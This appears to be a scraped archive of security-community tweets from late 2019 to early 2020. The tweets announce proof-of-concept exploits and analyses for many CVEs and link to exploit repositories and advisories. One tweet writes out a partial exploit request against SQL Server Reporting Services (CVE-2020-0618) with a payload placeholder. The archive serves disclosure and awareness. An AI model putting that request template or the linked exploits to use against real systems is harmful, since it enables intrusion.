PoC published for CVE-2020-0618, which is an RCE in Microsoft's SQL Server Reporting Services (SSRS)

https://t.co/t6bmycdUjX https://t.co/n16cHivDMe
</blockquote>

* https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>144</code></td>
<td>Favorites: <code>295</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1229671907219296256 _at Tue Feb 18 07:40:03 +0000 2020_**
<blockquote>
[PoC] CVE-2020-0618 Microsoft SQL Server Reporting Services RCE Vulnerability

POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
...
...
NavigationCorrector$PageState=NeedsCorrection&amp;NavigationCorrector$ViewState=[PayloadHere]&amp;__VIEWSTATE=

https://t.co/zDu2m9gJnh https://t.co/FeCBMcnaPv
</blockquote>

* https://github.com/euphrat1ca/CVE-2020-0618

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>178</code></td>
<td>Favorites: <code>338</code></td>
</tr></table>

---
# ExcreamOn
**https://twitter.com/ExcreamOn/status/1227675139304718337 _at Wed Feb 12 19:25:36 +0000 2020_**
<blockquote>
CVE-2020-0683

Original Poc sent to MSRC. Assigned to CVE-2020-0683 - Windows Installer Elevation of Privilege

https://t.co/oUi4bJxWZI
#windows #lpe #eop #exploit #pentest
</blockquote>

* https://github.com/padovah4ck/CVE-2020-0683

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# irsdl
**https://twitter.com/irsdl/status/1227320193745068032 _at Tue Feb 11 19:55:11 +0000 2020_**
<blockquote>
CVE-2020-0618: Microsoft SQL Server Reporting Services Remote Code Execution Vulnerability - if you use SSRS patch now not even tomorrow! It is a simple unauth rce!
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>187</code></td>
</tr></table>

---
# RealTryHackMe
**https://twitter.com/RealTryHackMe/status/1226821142385741829 _at Mon Feb 10 10:52:08 +0000 2020_**
<blockquote>
Understand a recent Linux local privilege escalation vulnerability (CVE-2019-14287) and exploit it yourself with your own FREE deployable vulnerable machine!

https://t.co/jacpdF2hyf

#linux #infosecurity #hacking #learn #handson https://t.co/mHct6sSNqX
</blockquote>

* https://tryhackme.com/room/sudovulnsbypass

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# _ringzer0
**https://twitter.com/_ringzer0/status/1224325925606699010 _at Mon Feb 03 13:37:02 +0000 2020_**
<blockquote>
Full writeup and exploit of Windows kernel ws2ifsl use-after-free (CVE-2019-1215) via @bluefrostsec and @flxflndy

https://t.co/bC2O3rmNaV https://t.co/XvilzbqrOp
</blockquote>

* https://labs.bluefrostsecurity.de/blog/2020/01/07/cve-2019-1215-analysis-of-a-use-after-free-in-ws2ifsl/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1222972645790142464 _at Thu Jan 30 19:59:35 +0000 2020_**
<blockquote>
PHP 7.0-7.4 disable_functions bypass 0day PoC
https://t.co/fwbgUFOh0l
</blockquote>

* https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>145</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1222786139636944897 _at Thu Jan 30 07:38:28 +0000 2020_**
<blockquote>
CVE-2020-0674: Internet Explorer Remote Code Execution Vulnerability Exploited in the Wild

Zero-day remote code execution vulnerability

Triggers
0. JScript
1. used in #argument
2. #recursion
...

Proof of Concept Demo Video https://t.co/K3PRkb753s
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>303</code></td>
</tr></table>

---
# window
**https://twitter.com/window/status/1222345450629423104 _at Wed Jan 29 02:27:20 +0000 2020_**
<blockquote>
“To overcome these limitations, we drew inspiration from the Morris worm... which exploited the DEBUG vulnerability in Sendmail by executing the body of a mail as a
shell script”

oss-security - LPE and RCE in OpenSMTPD (CVE-2020-7247)
 https://t.co/cQLRvg7h8P
</blockquote>

* https://www.openwall.com/lists/oss-security/2020/01/28/3

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---
# RiftWhiteHat
**https://twitter.com/RiftWhiteHat/status/1222302147515162625 _at Tue Jan 28 23:35:15 +0000 2020_**
<blockquote>
Here's my PoC for CVE-2020-7980, a script to gain RCE (root level) to some Satellite controllers.

https://t.co/LBH3u9Jzix
</blockquote>

* https://github.com/Xh4H/Satellian-CVE-2020-7980

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---
# pozdnychev
**https://twitter.com/pozdnychev/status/1222297493339361281 _at Tue Jan 28 23:16:46 +0000 2020_**
<blockquote>
Qualys Security Advisory:  LPE and RCE (CVE-2020-7247) in OpenSMTPD, OpenBSD's mail server.  Erroneous logic in smtp_mailaddr() which validates user and domain. More details and PoC at: https://t.co/jjTJaqYgUO

PS:  "Did you ever play tic-tac-toe?"
</blockquote>

* https://www.openwall.com/lists/oss-security/2020/01/28/3

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>167</code></td>
</tr></table>

---
# pentest_swissky
**https://twitter.com/pentest_swissky/status/1221565595180765185 _at Sun Jan 26 22:48:28 +0000 2020_**
<blockquote>
Windows / Linux Local Privilege Escalation Workshop (Materials included !) 🥳
https://t.co/7B3ZXVoFGh
</blockquote>

* https://github.com/sagishahar/lpeworkshop

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>353</code></td>
</tr></table>

---
# layle_ctf
**https://twitter.com/layle_ctf/status/1221514332049113095 _at Sun Jan 26 19:24:46 +0000 2020_**
<blockquote>
Ladies and gentlemen, I present you a working Remote Code Execution (RCE) exploit for the Remote Desktop Gateway (CVE-2020-0609 &amp; CVE-2020-0610). Accidentally followed a few rabbit holes but got it to work! Time to write a blog post ;)

Don't forget to patch! https://t.co/FekupjS6qG
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>50</code></td>
<td>Replies: <code>50</code></td>
<td>Retweets: <code>1106</code></td>
<td>Favorites: <code>3145</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1220944637138882562 _at Sat Jan 25 05:41:00 +0000 2020_**
<blockquote>
Local Privilege Escalation in many Ricoh Printer Drivers for Windows (CVE-2019-19363)

PoC exploit included

https://t.co/WWRZ2dVPoq https://t.co/y2rmHxeFIe
</blockquote>

* https://www.pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# layle_ctf
**https://twitter.com/layle_ctf/status/1220798026530414593 _at Fri Jan 24 19:58:25 +0000 2020_**
<blockquote>
It's time to drop my DoS PoC for CVE-2020-0609 &amp; CVE-2020-0610! Gonna make the scanner soon and then hopefully create a full RCE if possible :) Thanks to @ollypwn for the assistance!
https://t.co/MpDPLrmTZP
</blockquote>

* https://github.com/ioncodes/BlueGate

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---
# DirectoryRanger
**https://twitter.com/DirectoryRanger/status/1220662542768463872 _at Fri Jan 24 11:00:03 +0000 2020_**
<blockquote>
Invoke-WMILM. PoC script for various methods to achieve authenticated remote code execution via WMI, without (at least directly) using the Win32_Process class

https://t.co/NLVkSjFXrD
</blockquote>

* https://github.com/Cybereason/Invoke-WMILM

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---
# LukasStefanko
**https://twitter.com/LukasStefanko/status/1220255786087190528 _at Thu Jan 23 08:03:45 +0000 2020_**
<blockquote>
Forensic analysis of Jeff Bezos hacked #iPhoneX

iPhone was exploited via #WhatsApp vulnerability that probably triggered RCE.
Similar exploit was fixed in October 2019- CVE-2019-11932(double-free vulnerability) but instead of video it was triggered by GIF
https://t.co/WE9BLPeBly https://t.co/51IKnKiA9Q
</blockquote>

* https://www.documentcloud.org/documents/6668313-FTI-Report-into-Jeff-Bezos-Phone-Hack.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---
# Geluchat
**https://twitter.com/Geluchat/status/1219249156801298432 _at Mon Jan 20 13:23:46 +0000 2020_**
<blockquote>
Nice collection of chrome sandbox escape POCs/exploits and methodology, go check it out ! https://t.co/X7OO4nil5W
</blockquote>

* https://github.com/allpaca/chrome-sbx-db

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>204</code></td>
</tr></table>

---
# Mateusz_Jozef
**https://twitter.com/Mateusz_Jozef/status/1218990646108860417 _at Sun Jan 19 20:16:32 +0000 2020_**
<blockquote>
CVE-2020-0674: Microsoft Internet Explorer 0day - Scripting Engine Memory Corruption Vulnerability being exploited in the wild https://t.co/lK5gTFxb8R
</blockquote>

* https://www.reddit.com/r/netsec/comments/equ1s6/cve20200674_microsoft_internet_explorer_0day/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---
# blackorbird
**https://twitter.com/blackorbird/status/1218529058218106880 _at Sat Jan 18 13:42:21 +0000 2020_**
<blockquote>
#darkhotel  #0day #exploit
CVE-2020-0674 
Microsoft Guidance on Scripting Engine Memory Corruption Vulnerability
A remote code execution vulnerability exists in the way that the scripting engine handles objects in memory in Internet Explorer. 
https://t.co/1mbqh1IMDz
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/ADV200001

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---
# jorgeorchilles
**https://twitter.com/jorgeorchilles/status/1218376627815616512 _at Sat Jan 18 03:36:39 +0000 2020_**
<blockquote>
New Internet Explorer 0day and advisory out. Exploited in wild. No patch from Microsoft. Mitigation is to not use IE. CVE-2020-0674

https://t.co/Tk8XHBBLnq
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/ADV200001

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>96</code></td>
<td>Favorites: <code>87</code></td>
</tr></table>

---
# MalwareTechBlog
**https://twitter.com/MalwareTechBlog/status/1218324513999319042 _at Sat Jan 18 00:09:34 +0000 2020_**
<blockquote>
My analysis of Remote Desktop Gateway RCE bugs CVE-2020-0609 &amp; CVE-2020-0610 is up.
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>161</code></td>
<td>Favorites: <code>448</code></td>
</tr></table>

---
# kryptoslogic
**https://twitter.com/kryptoslogic/status/1218323686761037824 _at Sat Jan 18 00:06:16 +0000 2020_**
<blockquote>
RDP to RCE: When Fragmentation Goes Wrong

AKA: What we know about CVE-2020-0609 and CVE-2020-0610.

https://t.co/NW2mKOf5Hw
</blockquote>

* https://www.kryptoslogic.com/blog/2020/01/rdp-to-rce-when-fragmentation-goes-wrong/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>288</code></td>
<td>Favorites: <code>575</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1216635462011351040 _at Mon Jan 13 08:17:52 +0000 2020_**
<blockquote>
Servers vulnerable to CVE-2019-19781 by country:
🇺🇸 United States: 9,880
🇩🇪 Germany: 2,510
🇬🇧 United Kingdom: 2,028
🇨🇭 Switzerland: 1,094
🇦🇺 Australia: 1,076
🇳🇱 Netherlands: 713
🇨🇦 Canada: 682
🇫🇷 France: 591
🇮🇹 Italy: 568
🇳🇴 Norway: 446
All others: 5,533
https://t.co/tm7udJUzH1
</blockquote>

* https://docs.google.com/spreadsheets/d/1sJ8-cVyG4vFYq6-MGdapM1eAhUkoXIKlsmuzKdfD9Ys/edit?usp=sharing

<table><tr>
<td>Quotes: <code>36</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>149</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1215786199383597056 _at Sat Jan 11 00:03:12 +0000 2020_**
<blockquote>
Remote code execution proof-of-concept for Citrix ADC/Gateway vulnerability CVE-2019-19781 has been posted on GitHub: https://t.co/YsDS0EI4M1

Affected organizations are advised to apply the mitigation provided by Citrix ASAP as no patch exists yet. https://t.co/c9f22TfP2K
</blockquote>

* https://github.com/projectzeroindia/CVE-2019-19781
* https://support.citrix.com/article/CTX267679

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# bluefrostsec
**https://twitter.com/bluefrostsec/status/1214571356785917953 _at Tue Jan 07 15:35:51 +0000 2020_**
<blockquote>
Full analysis and exploit for Windows kernel ws2ifsl use-after-free (CVE-2019-1215) by our researcher @flxflndy https://t.co/w2IvTGNSPd
</blockquote>

* https://labs.bluefrostsecurity.de/blog/2020/01/07/cve-2019-1215-analysis-of-a-use-after-free-in-ws2ifsl/

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>190</code></td>
<td>Favorites: <code>327</code></td>
</tr></table>

---
# allDisc0very
**https://twitter.com/allDisc0very/status/1213360024015327232 _at Sat Jan 04 07:22:27 +0000 2020_**
<blockquote>
POC by @chybeta: CVE-2019-10758 post-auth Remote Code Execution in mongo-express &lt; 0.54.0 via endpoints that uses the `toBSON` method - https://t.co/CJAcSEvlaS
</blockquote>

* https://github.com/masahiro331/CVE-2019-10758

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# 0vercl0k
**https://twitter.com/0vercl0k/status/1213157383884570624 _at Fri Jan 03 17:57:14 +0000 2020_**
<blockquote>
Here is an exploit for LPE CVE-2019-1184 in case anybody else is interested in this cool bug: https://t.co/PmAFAj1HV0 https://t.co/Osr4Rk2V8z
</blockquote>

* https://github.com/0vercl0k/stuffz/blob/master/CVE-2019-1184/CVE-2019-1184.cc

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>232</code></td>
<td>Favorites: <code>447</code></td>
</tr></table>

---
# chybeta
**https://twitter.com/chybeta/status/1212730812325449728 _at Thu Jan 02 13:42:11 +0000 2020_**
<blockquote>
CVE-2019-10758 post-auth Remote Code Execution in mongo-express &lt; 0.54.0 via endpoints that uses the `toBSON` method

however there are lots of no-auth mongo-express ...

shodan: https://t.co/9J4qhXL1Im

poc: https://t.co/mtChbxVDrw https://t.co/zp7EK2cmu3
</blockquote>

* https://www.shodan.io/search?query=Mongo+Express
* https://github.com/masahiro331/CVE-2019-10758

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>189</code></td>
<td>Favorites: <code>380</code></td>
</tr></table>

---
# Pitoon_T
**https://twitter.com/Pitoon_T/status/1210741607403704322 _at Sat Dec 28 01:57:48 +0000 2019_**
<blockquote>
CVE-2019-13272 :  A linux kernel Local Root Privilege Escalation vulnerability with PTRACE_TRACEME

https://t.co/kRgZ73wYpP
</blockquote>

* https://github.com/jiayy/android_vuln_poc-exp/tree/master/EXP-CVE-2019-13272-aarch64

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# cry__pto
**https://twitter.com/cry__pto/status/1210122011428737025 _at Thu Dec 26 08:55:45 +0000 2019_**
<blockquote>
Jenkins RCE Proof-of-Concept: SECURITY-1266 / CVE-2019-1003000 (Script Security),CVE-2019-1003001 (Pipeline: Groovy),CVE-2019-1003002 (Pipeline: Declarative)
https://t.co/IPoLU0SoyC
#Hacking #pentest #redteam #infosec #bugbountytips
</blockquote>

* https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>19</code></td>
</tr></table>

---
# kumagami331
**https://twitter.com/kumagami331/status/1210114878469357568 _at Thu Dec 26 08:27:24 +0000 2019_**
<blockquote>
CVE-2019-10758 mongo-express RCE PoC
Authenticated remote attacker can execute arbitrary code. 
https://t.co/kapRHmIHSJ
</blockquote>

* https://github.com/masahiro331/CVE-2019-10758

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/1208426206233874436 _at Sat Dec 21 16:37:13 +0000 2019_**
<blockquote>
RT @n4r1B: We just updated the executive callback repo with a research on the callback used by PatchGuard @0xcpu https://t.co/QW4QvMxT8j
</blockquote>

* https://github.com/0xcpu/ExecutiveCallbackObjects/tree/master/542875F90F9B47F497B64BA219CACF69

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# buherator
**https://twitter.com/buherator/status/1208188314777477120 _at Sat Dec 21 00:51:55 +0000 2019_**
<blockquote>
Wrote an exploit based on @kyREcon's Symantec LPE writeup:

https://t.co/PdMpZni8Z4
(still half-drunk, so no warranty...) https://t.co/ic26ArYsH6
</blockquote>

* https://github.com/v-p-b/cve-2019-12750/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>137</code></td>
</tr></table>

---
# n4r1B
**https://twitter.com/n4r1B/status/1208091642114248707 _at Fri Dec 20 18:27:47 +0000 2019_**
<blockquote>
We just updated the executive callback repo with a research on the callback used by PatchGuard @0xcpu https://t.co/QW4QvMxT8j
</blockquote>

* https://github.com/0xcpu/ExecutiveCallbackObjects/tree/master/542875F90F9B47F497B64BA219CACF69

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1205021980241453056 _at Thu Dec 12 07:10:02 +0000 2019_**
<blockquote>
👏 Patched in less than 3 hours...
 
A new local privilege escalation vulnerability (CVE-2019-19726) discovered in #OpenBSD 6.5/6.6 that could allow local users or malicious software to gain full root privileges on targeted systems.

Details and PoC: https://t.co/Lc1NTtTG3G
</blockquote>

* https://www.qualys.com/2019/12/11/cve-2019-19726/local-privilege-escalation-openbsd-dynamic-loader.txt

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---
# OPOSEC
**https://twitter.com/OPOSEC/status/1204672174830825473 _at Wed Dec 11 08:00:02 +0000 2019_**
<blockquote>
PreAuth RCE on Palo Alto GlobalProtect Part II (CVE-2019-1579). https://t.co/W2ILBPYz5Y (+) PoC: https://t.co/c7NoOYuCYi #Security #293 (2019)
</blockquote>

* http://bit.ly/2lXfyJy
* https://github.com/securifera/CVE-2019-1579

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# blackorbird
**https://twitter.com/blackorbird/status/1204585220529258496 _at Wed Dec 11 02:14:31 +0000 2019_**
<blockquote>
#APT #Darkhotel #0day #WizardOpium
Chrome RCE to windows Privilege Escalation

First
Chrome 0-day exploit CVE-2019-13720 used in Operation WizardOpium
https://t.co/WmUj2BkieG
Then
Windows 0-day exploit CVE-2019-1458 used in Operation WizardOpium(Windows 7)
https://t.co/Gqkmmn9Ujc https://t.co/VUwL14hPNf
</blockquote>

* https://securelist.com/chrome-0-day-exploit-cve-2019-13720-used-in-operation-wizardopium/94866/
* https://securelist.com/windows-0-day-exploit-cve-2019-1458-used-in-operation-wizardopium/95432/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>169</code></td>
</tr></table>

---
# 0vercl0k
**https://twitter.com/0vercl0k/status/1202955509738934272 _at Fri Dec 06 14:18:38 +0000 2019_**
<blockquote>
Here is an exploit chain I wrote for Firefox that gets RCE via CVE-2019-9810 and escape the sandbox with CVE-2019-11708/CVE-2019-9810. Once compromised, it drops a payload and injects privileged JS code in already/newly created tabs. https://t.co/ZmUxjBBhpC https://t.co/LeAOCgqpMG
</blockquote>

* https://github.com/0vercl0k/CVE-2019-11708

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>487</code></td>
<td>Favorites: <code>1046</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1202553842870571008 _at Thu Dec 05 11:42:33 +0000 2019_**
<blockquote>
New 👇

A critical remote Authentication Bypass (smtpd, ldapd, and radiusd) and 3 other Local Privilege Escalation flaws disclosed in #OpenBSD operating system.

Details and PoC — https://t.co/ZowHZY6O1e
 
➡️ CVE-2019-19521
➡️ CVE-2019-19520
➡️ CVE-2019-19522
➡️ CVE-2019-19519 https://t.co/S2y3fvRqbP
</blockquote>

* https://thehackernews.com/2019/12/openbsd-authentication-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>195</code></td>
<td>Favorites: <code>201</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1201329902764511232 _at Mon Dec 02 02:39:03 +0000 2019_**
<blockquote>
[PoC List] Zero-Day Usage By Country

#Fireeye

1. CVE-2012-4681
https://t.co/q8RzawOJXg

2. CVE-2012-4792
https://t.co/IdAkgMf45l

3. CVE-2013-0422
https://t.co/Nbn034eY0K
https://t.co/0F4LnSBCO5

4. CVE-2013-3893
https://t.co/DTp47A5O59

5. CVE-2013-3918
https://t.co/F9nketGNVJ https://t.co/Ijk48e7vzT
</blockquote>

* https://www.exploit-db.com/exploits/20865
* https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/browser/ie_cbutton_uaf.rb
* https://github.com/rapid7/metasploit-framework/tree/master/external/source/exploits/cve-2013-0422
* https://www.exploit-db.com/exploits/24045
* https://msrc-blog.microsoft.com/2013/09/17/cve-2013-3893-fix-it-workaround-available/
* https://www.exploit-db.com/exploits/29857

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>178</code></td>
<td>Favorites: <code>313</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1194363315344084992 _at Tue Nov 12 21:16:19 +0000 2019_**
<blockquote>
So tonight Microsoft fixed 3 vulnerabilities I reported in Windows Font processing affecting Kernel in Windows before 10:
CVE-2019-1419: RCE in Windows 10 and below.
CVE-2019-1456: RCE in Windows 10 and below.
CVE-2019-1412: Windows Kernel information disclosure.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---
# iFenixx
**https://twitter.com/iFenixx/status/1193881947178749952 _at Mon Nov 11 13:23:32 +0000 2019_**
<blockquote>
iOS Jailbreak via Sandbox Escape and Kernel R/W leading to RCE

POC : https://t.co/e53QCoFTI3
</blockquote>

* https://github.com/ssd-secure-disclosure/advisories/tree/master/SSD%20Advisory%20-%204066

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>175</code></td>
</tr></table>

---
# matteyeux
**https://twitter.com/matteyeux/status/1193870987235856386 _at Mon Nov 11 12:39:59 +0000 2019_**
<blockquote>
POC : https://t.co/K04i2qgxnG
</blockquote>

* https://github.com/ssd-secure-disclosure/advisories/tree/master/SSD%20Advisory%20-%204066

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>119</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1190183847859834881 _at Fri Nov 01 08:28:36 +0000 2019_**
<blockquote>
On late Halloween evening, Google discloses Chrome zero-day exploited in the wild

&gt; CVE-2019-13720
&gt; Use-after-free in Chrome's audio component
&gt; Update to Chrome 78.0.3904.87
&gt; No details about attacks (cybercrime/APT-related)
&gt; Discovered by Kaspersky

https://t.co/6imlN8TA17 https://t.co/MhKSrs77m4
</blockquote>

* https://www.zdnet.com/article/halloween-scare-google-discloses-chrome-zero-day-exploited-in-the-wild/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---
# scarybeasts
**https://twitter.com/scarybeasts/status/1190158374987427840 _at Fri Nov 01 06:47:23 +0000 2019_**
<blockquote>
Your other Halloween scare, looks like a Chrome 0-day: "CVE-2019-13720: Use-after-free in audio. Reported by Anton Ivanov and Alexey Kulaev at Kaspersky Labs on 2019-10-29

Google is aware of reports that an exploit for CVE-2019-13720 exists in the wild."
</blockquote>

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>258</code></td>
</tr></table>

---
# mikko
**https://twitter.com/mikko/status/1187709720968286208 _at Fri Oct 25 12:37:18 +0000 2019_**
<blockquote>
Impressive: Someone wrote a compiler which compiles cheats (for Counterstrike) to use Return-oriented programming, only executing code that is already present in the machine's memory. This is done to try to bypass anticheat engines. Seen at #t2infosec https://t.co/RpW90HsKE2 https://t.co/CNZeRA9STz
</blockquote>

* https://github.com/Speedi13/ROP-COMPILER

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>36</code></td>
<td>Replies: <code>17</code></td>
